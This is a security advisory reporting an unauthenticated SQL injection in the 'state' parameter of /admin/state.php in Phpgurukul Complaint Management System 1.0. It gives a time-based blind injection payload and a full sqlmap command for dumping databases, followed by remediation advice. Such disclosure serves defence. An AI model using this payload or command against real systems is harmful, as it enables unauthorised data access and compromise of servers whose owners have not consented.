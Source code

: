 # Security Vulnerability Disclosure

## Project Information
+ Product Name: Complaint Management System
+ Version: 1.0
+ Vendor Website: Complaint Management System
+ Source Code Download: Download Here

## Reporter Details
+ Reported By: angrysheep

## Vulnerability Overview

+ A severe SQL Injection vulnerability has been identified in the /admin/state.php file of the Phpgurukul Complaint Management System v1.0. This flaw allows attackers to inject malicious SQL code through the state parameter without requiring any form of authentication, potentially leading to unauthorized data access, data manipulation, and complete system compromise.

# Technical Analysis

## Vulnerability Type
+ SQL Injection

## Affected Endpoint
+ File Path: /admin/state.php
+ Parameter Vulnerable: state

## Root Cause

+ The vulnerability arises because the application directly embeds user-supplied input from the state parameter into SQL queries without implementing adequate sanitization or validation mechanisms. This oversight permits attackers to manipulate the SQL query structure by injecting malicious code, thereby executing unintended database operations.

## Impact Assessment

**Exploiting this SQL Injection vulnerability can result in:**
+ **Unauthorized Data Access:** Attackers can retrieve sensitive information from the database.
+ **Data Breach:** Exposure of confidential data, including user information.
+ **Data Manipulation:** Ability to alter or delete existing data.
+ **System Compromise:** Potential for complete takeover of the application and underlying server.
+ **Denial of Service:** Disruption of services through malicious queries that overload the database.

These consequences pose a critical threat to both the security and functionality of the affected system.

# Proof of Concept (PoC)

## Malicious Payload Example
```bash
state=123' AND (SELECT 1249 FROM (SELECT(SLEEP(5)))EKMQ) AND 'zTlX'='zTlX&description=123&submit=
```

**Exploitation Steps Using sqlmap**
**1.Identify the Vulnerable Parameter:**
+ The state parameter in the /admin/state.php file is susceptible to SQL Injection.
**2.Execute the Attack with sqlmap:**
```bash
sqlmap.py -u "192.168.134.167:1111/admin/state.php" \
         --data="state=123&description=123&submit=" \
         --batch --level=5 --risk=3 --dbms=mysql \
         --random-agent --tamper=space2comment --dbs
```

**3.Observation:**
+ The injected payload causes a delay (SLEEP(5)), indicating successful exploitation.

**Execution Evidence**
+ ![image](https://github.com/user-attachments/assets/b0c97777-89f5-49d1-829a-cdb2f5920ea9)

## Remediation Recommendations

To mitigate the identified SQL Injection vulnerability, the following actions are recommended:
**1.Implement Prepared Statements and Parameterized Queries**
+ Utilize prepared statements to ensure that user inputs are treated strictly as data, not executable code. This effectively separates SQL logic from user-supplied data.
**2.Enforce Input Validation and Sanitization**
+ Rigorously validate and sanitize all user inputs to ensure they conform to expected formats and types before processing. Reject or properly handle any anomalous input.
**3.Adopt the Principle of Least Privilege**
+ Configure database user accounts with the minimal necessary permissions required for their function. Avoid using high-privilege accounts (e.g., root, admin) for routine database operations.
**4.Conduct Regular Security Audits and Code Reviews**
+ Perform periodic security assessments and code reviews to identify and remediate potential vulnerabilities proactively. Utilize automated tools and manual testing to enhance coverage.
**5.Implement Web Application Firewalls (WAF)**
+ Deploy a WAF to monitor and filter malicious traffic, providing an additional layer of defense against SQL Injection and other common web vulnerabilities.

## Conclusion

The discovered SQL Injection vulnerability in the Phpgurukul Complaint Management System poses a significant risk to the application’s integrity and the confidentiality of its data. Immediate remediation is essential to safeguard against potential exploitation and to maintain the trust of users relying on the system.

**Additional Resources**
+ [Complaint Management System Homepage](https://phpgurukul.com/complaint-management-sytem/)
+ [Download Complaint Management System Source Code](https://phpgurukul.com/wp-content/uploads/2017/12/Complaint-Management-System-PHP.zip)

**Disclaimer: This report is intended solely for the responsible disclosure of security vulnerabilities to the affected vendor. Unauthorized use or distribution of this information is prohibited.**
